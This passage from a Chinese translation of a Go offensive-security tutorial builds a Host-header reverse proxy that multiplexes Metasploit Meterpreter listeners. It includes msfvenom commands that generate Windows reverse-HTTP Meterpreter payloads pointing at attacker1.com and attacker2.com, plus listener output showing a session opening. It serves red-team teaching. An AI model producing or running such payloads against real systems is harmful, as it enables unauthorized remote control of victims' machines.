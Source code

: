 ```go
			log.Fatal("Unable to parse proxy target")
		}
		proxies[k] = httputil.NewSingleHostReverseProxy(remote)
	}
}

func main() {
	r := mux.NewRouter()
	for host, proxy := range proxies {
		r.Host(host).Handler(proxy)
	}
	log.Fatal(http.ListenAndServe(":80", r))
}
```

代码 4-10: 多路复用 Meterpreter (https://github.com/blackhat-go/bhg/ch-4/multiplexer/main.go/)

首先注意的是导入 `net/http/httputil` 包，其含有帮助创建反向代理的功能。这样就不用从头开始创建了。

导入包后，定义了一对map类型的变量。先使用第一个 `hostProxy` 将主机名映射到Metasploit监听器的URL，希望将该主机名路由到该监听器。记住，基于代理在HTTP请求中收到的Host报头。维护该映射是确定目标的一种简单方法。

定义的第二个变量 `proxies` 也使用主机名作为key。然而，map中相应的值为 `*httputil .ReverseProxy` 类型的实例。也就是路由到的真实的代理实例，而不是目标的字符串形式。

注意点硬编码了这些信息，这不是管理配置和代理数据的最优雅方式。更好的方式是将这些信息存储在外部的配置文件中。

使用 `init() ` 函数来定义域名和目标Metasploit实例之间的映射。本例中，将所有Host报头值为 `attacker1.com` 的请求路由到 `http://10.0.1.20 :10080`，将所有Host报头值为 `attacker2.com` 的请求路由到 `http://10.0.1.20 :20080。当然，实际上还没有执行路由；这仅创建了基本的配置。注意，这些地址对应于之前为Meterpreter监听器使用的ReverseListenerBindAddress和ReverseListenerBindPort值。

接下来，仍然在 `init() ` 函数中，循环遍历 ` hostProxy` map，解析终点地址来创建 `net.URL` 实例。调用 `httputil.NewSingleHostReverseProxy (net.URL)` 时将该实例传入，该函数是从URL创建反向代理的辅助函数。更好的是，`httputil.ReverseProxy` 类型符合 `http.Handler` 实例，也就是可以使用创建的代理实例作为路由的处理函数。在 `main()` 函数中，创建路由，然后循环遍历所有的代理实例。回想下该map的键为主机名，值是 `httputil.ReverseProxy` 类型。对于map中的每一对 key/value，在路由上添加匹配函数。Gorilla MUX工具包的路由类型包含一个名为Host的匹配函数，该函数接受一个主机名来匹配传入请求中的Host 报头。对于每一个要检查的主机名，告诉路由使用相应的代理。对于一个复杂的问题来说，这是一个非常简单的解决方案。

通过启动服务来完成程序，绑定到80端口。保存并启动该程序。由于绑定到特别的端口，因此需要作为特别的用户执行此操作。

至此，已经有了两个正在运行的Meterpreter反向HTTP监听器，现在也应该有一个运行中的反向代理。最后一步是生成测试来检验代理是否工作。使用和Metasploit一起发布的负载生成工具 `msfvenom` ，来生成一对Windows可执行文件:

```shell
$ msfvenom -p windows/meterpreter_reverse_http LHOST=10.0.1.20 LPORT=80 HttpHostHeader=attacker1.com -f exe -o payload1.exe
$ msfvenom -p windows/meterpreter_reverse_http LHOST=10.0.1.20 LPORT=80 HttpHostHeader=attacker2.com -f exe -o payload2.exe
```

生成了两个文件：*payload1.exe* 和 *payload2.exe 。请注意，除了文件名之外，两者之间的惟一区别是 `HttpHostHeader` 值。这确保产生的负载使用特定的Host报头发送HTTP请求。也要注意，LHOST 和 LPORT 的值对应于反向代理的信息，而不是Meterpreter监听器。将生成的可执行文件传输到Windows系统或虚拟机。当执行该文件时，会有两个新的 sessions 创建：一个绑定在10080端口的监听器，一个是绑定在20080端口的监听器。应该是下面这样：

```shell
>
[*] http://10.0.1.20:10080 handling request from 10.0.1.20; (UUID: hff7podk) Redirecting stageless connection from /pxS_2gL43lv34_birNgRHgL4AJ3A9w3i9FXG3Ne2-3UdLhACr8-Qt6QOlOw PTkzww3NEptWTOan2rLo5RT42eOdhYykyPYQy8dq3Bq3Mi2TaAEB with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0;
rv:11.0) like Gecko'
[*] http://10.0.1.20:10080 handling request from 10.0.1.20; (UUID: hff7podk) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (10.0.1.20:10080 -> 10.0.1.20:60226) at 2020-07-03 16:13:34 -0500
```
